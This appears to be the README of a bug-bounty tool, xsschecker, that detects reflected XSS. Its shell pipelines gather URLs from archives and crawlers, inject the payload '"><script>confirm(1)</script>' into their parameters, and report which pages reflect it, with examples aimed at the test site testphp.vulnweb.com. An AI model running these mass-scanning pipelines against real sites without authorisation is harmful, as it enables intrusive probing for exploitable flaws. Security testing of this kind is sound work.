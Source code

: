 ```
██╗  ██╗███████╗███████╗ ██████╗██╗  ██╗███████╗ ██████╗██╗  ██╗███████╗██████╗ 
╚██╗██╔╝██╔════╝██╔════╝██╔════╝██║  ██║██╔════╝██╔════╝██║ ██╔╝██╔════╝██╔══██╗
 ╚███╔╝ ███████╗███████╗██║     ███████║█████╗  ██║     █████╔╝ █████╗  ██████╔╝
 ██╔██╗ ╚════██║╚════██║██║     ██╔══██║██╔══╝  ██║     ██╔═██╗ ██╔══╝  ██╔══██╗
██╔╝ ██╗███████║███████║╚██████╗██║  ██║███████╗╚██████╗██║  ██╗███████╗██║  ██║
╚═╝  ╚═╝╚══════╝╚══════╝ ╚═════╝╚═╝  ╚═╝╚══════╝ ╚═════╝╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
```

<h3 align="center">xsschecker tool checking reflected endpoints finding possible xss vulnerable endpoints.</h3>

## Install
```
go install github.com/rix4uni/xsschecker@latest
```
or

```
git clone https://github.com/rix4uni/xsschecker.git && cd xsschecker && go build xsschecker.go && mv xsschecker /usr/bin/
```
## Usage
```
go run xsschecker.go -h
Usage: xsschecker [OPTIONS]

Options:
  -match string
        The string to match against the domain response. (required)
  -vuln
        If set, only vulnerable URLs will be printed.
```

## Reflected XSS Mass Automation
```
cat subs.txt | waybackurls >> waybackurls-urls.txt
cat subs.txt | gau >> gau-urls.txt
cat subs.txt | hakrawler -scope >> hakrawler-urls.txt
cat waybackurls-urls.txt gau-urls.txt hakrawler-urls.txt | anew -q urls.txt

cat urls.txt | uro | gf allparam | grep "=" | gf blacklist | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>'
```

## Reflected XSS Oneliner Command1
```
echo "testphp.vulnweb.com" | waybackurls | gf xss | uro | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>' -vuln
```

## Reflected XSS Oneliner Command2
```
echo "testphp.vulnweb.com" | waybackurls | uro | gf allparam | grep "=" | gf blacklist | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>' -vuln
```

## Reflected XSS Oneliner Command1 and Reflected XSS Oneliner Command2 Results Comparison
![image](https://github.com/rix4uni/xsschecker/assets/72344025/8034668c-42c3-47b1-9fee-5a58c2c96d63)

